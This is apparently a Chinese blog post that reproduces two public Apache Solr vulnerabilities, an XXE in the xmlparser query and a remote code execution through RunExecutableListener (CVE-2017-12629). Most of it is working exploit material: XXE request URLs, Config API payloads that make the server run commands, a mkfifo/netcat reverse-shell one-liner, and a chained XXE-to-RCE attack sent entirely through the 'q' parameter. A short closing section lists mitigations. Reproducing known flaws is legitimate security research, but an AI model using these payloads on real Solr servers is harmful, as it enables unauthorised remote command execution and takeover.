










## 0x00 简述
这里涉及到两个漏洞，一个是外部实体扩展XML External Entity Expansion (deftype=xmlparser) ，另一个是远程代码执行Remote Code Execution (add-listener: RunExecutableListener)。这两个漏洞是由Michael Stepankin (JPMorgan Chase)和Olga Barinova (Gotham Digital Science)发现并公布，此处主要进行漏洞复现。

原文地址：[http://lucene.472066.n3.nabble.com/Re-Several-critical-vulnerabilities-discovered-in-Apache-Solr-XXE-amp-RCE-td4358308.html](http://lucene.472066.n3.nabble.com/Re-Several-critical-vulnerabilities-discovered-in-Apache-Solr-XXE-amp-RCE-td4358308.html)

Solr主页：[http://lucene.apache.org/solr/](http://lucene.apache.org/solr/)

<!-- more -->

安装及启动都非常简单，不过需要强调的是，代码执行的漏洞需要在solr -c模式(cloud)下才有效。

启动后界面如下：


**平台：macOS 10.12.6**

## 0x01 XXE复现
Lucene包括一个使用XML数据结构创建全功能Lucene查询的解析器。从5.1版本开始，在Sorl的搜索查询中就开始支持xml查询。而出现漏洞的关键点在于Lucene的XML解析器没有明确禁止外部实体的DOCTYPE声明和扩展，造成可以在XML文档中包含指向外部文件(file:// )或者外部URL(http:// )的特殊实体。
#### 1. 使用netcat侦听4444端口 "nc -lv 4444"

#### 2. 浏览器访问
```
http://localhost:8983/solr/solr/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://localhost:4444/hello-liehu"><a></a>'}
```

#### 3. netcat接收到solr的请求包。




## 0x02 RCE复现( CVE-2017-12629 )
Solr的RunExecutableListener类可用于对特定事件执行任意命令，例如在每次更新查询后执行(postCommit)。该漏洞的问题点在于这样的监听器可以通过带有add-listener命令的Config API来启用任意参数。

#### 1. 新建一个名为Hunter的集合

http://localhost:8983/solr/admin/collections?action=CREATE&name=Hunter&numShards=2&maxShardsPerNode=2



PS：就复现而言，可以手动在后台添加集合或者使用现有集合。

#### 2. 使用netcat侦听4444端口“nc -lv 4444”

#### 3. 为集合添加一个新的RunExecutableListener监听器，其中"exe"属性内容为运行命令的名称("curl")，"args"属性内容" http://localhost:4444/helloRCE "为netcat侦听的端口。

```json
POST /solr/Hunter/config HTTP/1.1
Host: localhost:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener",
    "class":"solr.RunExecutableListener",
    "exe":"curl",
    "dir":"/usr/bin/",
    "args":["http://localhost:4444/helloRCE"]
  }
}
```


>   如果出现如上报错，是因为集合中没有数据。向http://localhost:8983/solr/Hunter/update 提交一些数据即可（数据提交方式参考下一步）。（资料参考：https://lucene.apache.org/solr/guide/7_0/uploading-data-with-index-handlers.html ）
    
>   如果监听器已经存在，可以考虑更换name,或者将add-listener修改为update-listener.

#### 4. 更新集合"Hunter"以触发RunExecutableListener的执行。

提交更新后，等一段时间后接收到请求包。



#### 5. 反弹Shell

mac下nc没有-e选项，也没有/dev/tcp，可使用

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 127.0.0.1 6666 > /tmp/f 
```
update一下监听器：
```json
{
    "update-listener": {
        "event": "postCommit",
        "name": "reverseShell",
        "class": "solr.RunExecutableListener",
        "exe": "sh",
        "dir": "/bin/",
        "args": ["-c", "rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 127.0.0.1 6666 > /tmp/f"]
    }
}
```
update一下数据，即可收到反弹shell:


## 0x03 XXE&RCE 组合利用

通过将如上两个漏洞组合，外部攻击者即使不能直接访问Sorl服务器，也可以实现远程代码执行。 唯一的要求是攻击者可以构造查询参数'q'。 如下的利用便是将所有的payload置于q参数，发起请求即可实现。

#### 1. 通过XXE新建集合combineEXP

```
http://localhost:8983/solr/Hunter/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://localhost:8983/solr/admin/collections?action=CREATE%26name=combineEXP%26numShards=2%26maxShardsPerNode=2"><a></a>'}
```


#### 2. 通过XXE添加RunExecutableListener
```
http://localhost:8983/solr/combineEXP/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://localhost:8983/solr/combineEXP/select?q=xxx&qt=/solr/combineEXP/config?stream.body={"add-listener": {"event": "postCommit", "name": "shell","class": "solr.RunExecutableListener", "exe": "sh","dir": "/bin/", "args": ["-c", "rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 127.0.0.1 7777 > /tmp/f"]}}"]}}&shards=localhost:8983/"><a></a>'}
```
先对stream.body内容进行二次URL编码(因为反弹shell的命令含有特殊字符)，然后在对q内容进行一次URL编码，得到URL(经过编码后的URL很长，这里不列出)。

会显示error，但实际已经成功。

#### 3. 通过XXE更新内容触发动作

```
http://localhost:8983/solr/combineEXP/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://localhost:8983/solr/combineEXP/update?stream.body=[{"id":"AAA"}]&commit=true&overwrite=true"><a></a>'}
```
先对stream.body内容进行一次URL编码，然后在对q内容进行一次URL编码，得到URL。

shell反弹成功！！！

## 0x04 防护方案
1. 关注官方消息，及时升级到solr 7.1版本。
2. 以系统参数"-Ddisable.configEdit=true"重启Solr实例，可实现临时性防护。(可能会影响正常功能)